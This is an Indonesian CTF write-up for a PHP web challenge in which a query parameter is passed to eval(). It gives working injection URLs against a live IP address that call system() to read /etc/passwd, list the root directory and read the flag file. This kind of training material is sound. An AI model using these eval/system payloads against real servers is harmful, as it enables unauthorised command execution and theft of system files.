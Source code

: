 # Warm
[http://146.190.202.192:10003/](http://146.190.202.192:10003/)

Pemanasan itu penting, ingat itu baik baik

#webexp #wu #php #commandinjection #pembinaan-gelatik-laos-25
___
![chall](./img/chall.png)

Terdapat source code php sederhana dengan point-point berikut:
- Apabila mengakses `?__=`, function `eval()` akan menjalankan string yang kita masukkan.
- selain itu akan menampilkan `__file__` yang kita lihat diawal chall.

Kerentanan pada web ini termasuk pada Command Injection, apalagi terdapat function `eval()` yang memungkinkan kita untuk mengeksekusi perintah.

Gunakan function seperti `exec()`, `shell_exec()` atau `system()` untuk mencoba mengakses file server.

Ketika menggunakan `system()`, berhasil mendapatkan tampilan
```
http://146.190.202.192:10003/?__=system(%22cat%20/etc/passwd%22);
```

![/etc/passwd](./img/etc-passwd.png)

Sekarang, coba untuk menjelajah root.
```
http://146.190.202.192:10003/?__=system(%22ls%20/%22);
```

![root](./img/root.png)

Terdapat file yang bernama `flag.txt`, tinggal cek aja.
```
http://146.190.202.192:10003/?__=system(%22cat%20/flag.txt%22);
```

![flag](./img/flag.png)

> **LAOS{Pemanasan_dulu_gak_sehh_kawannn}**